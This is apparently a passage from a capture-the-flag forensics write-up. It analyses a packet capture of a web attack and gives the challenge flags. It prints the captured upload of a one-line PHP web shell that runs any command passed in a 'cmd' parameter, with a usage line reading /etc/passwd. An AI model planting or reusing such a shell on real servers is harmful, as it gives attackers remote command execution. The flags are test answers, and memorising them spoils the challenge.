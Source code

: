 ```
Content-Disposition: form-data; name="_token"

pLDuHThQ1RGo8gXsm7ZHtxYLr66KDMWMXJEt8GEa
------WebKitFormBoundaryI8t14aG00RXkrSJu
Content-Disposition: form-data; name="title"

First blog
------WebKitFormBoundaryI8t14aG00RXkrSJu
Content-Disposition: form-data; name="content"

first blog
------WebKitFormBoundaryI8t14aG00RXkrSJu
Content-Disposition: form-data; name="file"; filename="serverfile.php"
Content-Type: application/x-php

<!-- Simple PHP Backdoor By DK (One-Liner Version) -->
<!-- Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd -->
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
------WebKitFormBoundaryI8t14aG00RXkrSJu--
```

The file is called `serverfile.php`!

Flag: `KCTF{serverfile.php}`

### Shell History (capture1.pcapng)

> Before the recent attack, another shell file was already present in the server. Find its name and the date it was used.

> Flag Format: KCTF{filename.ext_Feb_7}

Previously there was another malicious file uploaded. Find it's name as well as the day and month it was uploaded.

Considering the name of the challenge talks about a shell, the attacker likely did an `ls` which had the `-l` flag to display the date and other information.

The webshell in the previous challenge uses the `cmd` parameter. I setup a filter for HTTP traffic containing `cmd` in the request URI: `http && http.request.uri contains "cmd"`

![shellhistory.png](images/25-knight/shellhistory.png)

